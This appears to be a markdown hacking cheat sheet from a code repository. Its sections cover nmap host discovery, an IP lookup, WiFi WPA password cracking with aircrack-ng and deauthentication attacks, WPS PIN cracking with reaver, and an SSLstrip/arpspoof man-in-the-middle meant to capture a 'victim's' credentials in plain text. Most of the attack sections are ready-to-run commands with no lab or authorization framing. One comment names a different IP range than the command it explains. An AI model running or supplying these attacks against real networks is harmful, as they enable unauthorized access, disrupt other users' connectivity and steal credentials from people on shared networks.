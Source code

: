 ## NMAP
### Scanning a range of IPs to check for alive hosts and checking them
- `nmap [domain/ip]` -> scan
- `-v` for verbosity (`-vv` for greater effect)
- `-oG` to make the output Grepable
- `nmap -oG - 10.0.2.0-255 -p 22 -vv > scan` -> scan IPs from 192.168.1.0 to 192.168.1.255, checking only port 22, with great verbosity, and store the output in the `scan` document. Example output
```
...
Host: 10.0.2.251 ()	Status: Down
Host: 10.0.2.252 ()	Status: Down
Host: 10.0.2.253 ()	Status: Down
Host: 10.0.2.254 ()	Status: Down
Host: 10.0.2.255 ()	Status: Down
Host: 10.0.2.2 ()	Status: Up
Host: 10.0.2.2 ()	Ports: 22/filtered/tcp//ssh///
Host: 10.0.2.3 ()	Status: Up
Host: 10.0.2.3 ()	Ports: 22/filtered/tcp//ssh///
...
```
- `cat scan | grep Up` to get only Hosts with `Status: Up`. Example output
```
Host: 10.0.2.2 ()	Status: Up
Host: 10.0.2.3 ()	Status: Up
Host: 10.0.2.4 ()	Status: Up
Host: 10.0.2.15 ()	Status: Up
```
- `cat scan | grep Up | awk -F " " '{print $2}'` pipe the example output above into `awk`, splitting each line at space character and printing only the second argumemt of the split (aka the IP address). Example output
```
10.0.2.2
10.0.2.3
10.0.2.4
10.0.2.15
```
- `cat scan | grep Up | awk -F " " '{print $2}' > scan2` to save the output above into a new file
- `nmap -iL scan2 -vv` to do a full scan on ONLY alive hosts (got in previous steps) instead of checking them all. `-iL` is to get the input from a file

---

## Check info on IP (up to 1000 a day)
- `curl ipinfo.io/[ip]`
- `curl ipinfo.io/74.207.244.221` Example output:
```
{
  "ip": "74.207.244.221",
  "hostname": "li86-221.members.linode.com",
  "city": "Fremont",
  "region": "California",
  "country": "US",
  "loc": "37.5483,-121.9886",
  "org": "AS63949 Linode, LLC",
  "postal": "94536"
}
```

---

## Hack WiFi Password

- `ifconfig` to get wireless card (i.e. `wlan0`)
- `ifconfig wlan0 down` - bring down
- `iwconfig wlan0 mode monitor` - start monitoring
- `ifconfig wlan0 up` - bring back up
- `airmon-ng check wlan0` - see if there are processes that might cause interference (i.e. NetowrkManager spawns other processes that might interfere)
- `kill <process ID>` - kill every process in order
- `airodump-ng wlan0` to list all connections that the wireless card can get to
- `airodump-ng -c <CHANNEL> --bssid <MAC/BSSID> -w <NAME> wlan0` where all the variables can be got with previous command, and name is a filename where to store output
- `aireplay-ng -0 0 -a <MAC/BSSID> wlan0` - disconnects all devices connected to the MAC you are attacking
- `crunch <MIN_LENGHT> <MAX_LENGTH> <POSSIBLE_CHARS> [OPTIONS] | aircrack-ng -w - <NAME from 2 commands up> -e <ESSID>` - generate all possible words from MIN_LENGTH to MAX_LENGTH characters with given options, piping them to aircrack-ng that uses the file with the name generated before to try cracking the router with given ESSID.

### TIPS:
- if ESSID is made of more than 1 word, wrap in ""
- if error "No valid WPA handshakes found", make sure you killed all the processes already running on your wireless card, with `airmon-ng check <CARD>`

---

## Hack WPS Pin
- monitor wireless card (see above)
- check and kill any process already running (see above)
- `reaver -b <MAC> -i <WIRELESS CARD> -c <CHANNEL> -vv` - start cracking
- `reaver -i <WIRELESS_CARD> -b <MAC> -r <TRIES>:<SECONDS>` - this way we can define a maximum amount of tries per seconds to avoid being blocked out

---

## SSL Strip
Objective: intercept all unencrypted packages going through the network
- `apt-get install dsniff` - to be able to run arpspoof
- `echo 1 > /proc/sys/net/ipv4/ip_forward` - to enable ip-forwarding
- `iptables -t nat -A(append) PREROUTING -p(protocol) tcp --destination-port 80 -j REDIRECT --to-port 8080` - to redirect all traffic to port 8080
- `iptables -I INPUT 1 -p tcp --dport 8080 -j ACCEPT` - to open port 8080 to get all the redirected traffic
- `route` - to get the local IP range
- `nmap xxx.xxx.xxx.0-254 -vv` - where the IP address comes from the previous command to get a list of connected IP addresses and find the victim
- `sslstrip -l 8080` - to enable stripping
- `arpspoof -t(target) <IP from above> <HOST aka router IP>` - to start redirecting the packages from the victim IP to the host through you
- `tail -f sslstrip.log` - to read through the intercepted traffic. All credentials sent on HTTP sites are intercepted in plain text
